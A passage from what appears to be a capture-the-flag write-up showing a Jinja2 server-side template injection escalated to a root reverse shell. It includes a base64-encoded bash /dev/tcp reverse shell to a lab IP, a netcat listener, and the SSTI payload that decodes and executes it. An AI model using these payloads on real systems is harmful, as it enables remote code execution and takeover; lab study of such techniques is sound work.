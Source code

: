 ![](.gitbook/assets/2025-07-06_23-37-08_225.png)

- It works, and is `root` too
- Get a reverse shell with the same payload, encoding the payload to base64 first

```bash
echo -ne 'bash -i >& /dev/tcp/10.10.14.29/1234 0>&1' | base64

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yOS8xMjM0IDA+JjE=

# Start a listener
nc -nvlp 1234
```

```bash
# SSTI with payload
{{ namespace.__init__.__globals__.os.popen('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yOS8xMjM0IDA+JjE="|base64 -d|bash').read() }}
```

![](.gitbook/assets/2025-07-06_23-42-07_226.png)
